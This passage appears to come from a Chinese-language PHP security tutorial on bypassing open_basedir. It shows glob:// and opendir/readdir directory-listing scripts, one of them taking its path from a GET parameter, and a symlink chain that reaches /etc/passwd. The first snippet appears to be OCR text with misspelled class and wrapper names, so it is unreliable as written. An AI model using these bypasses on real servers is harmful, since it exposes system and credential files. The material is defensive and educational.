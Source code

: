 ```php
$result = array{};
$mulu =new Diretorylterator("globle:///*");
foreach($mulu as $a){
    $result = $a->__toString();
}
sort($result);
foreach($result as $s){
        echo "{$s}<br/>";
}
```

这里自己打了一遍，因为不想贴别人的代码…（主要是自己打一遍比较好）,绕过条件：PHP>5.3 && Linux环境下才可

#### opendir()+readdir()+glob://

- opendir()–>打开目录
- readdir()->返回目录中下一个文件的文件名。文件名以在文件系统中的排序返回。

所以脚本如下

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

#### scandir()+glob://

关于这个解法我不打算去看因为这个也是好像绕不了open_basedir的 引用：“这种方法也只能列出根目录和open_basedir允许目录下的文件。“

# 0x03 symlink绕过

`symlink()`函数创建一个从指定名称连接的现存目标文件开始的符号连接。： https://www.php.net/manual/zh/function.symlink.php 用法： symlink(string $target, string $link): bool

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","SD");
symlink("SD/../../../../etc/passwd","POC");
unlink("SD");
mkdir("SD");
?>
```
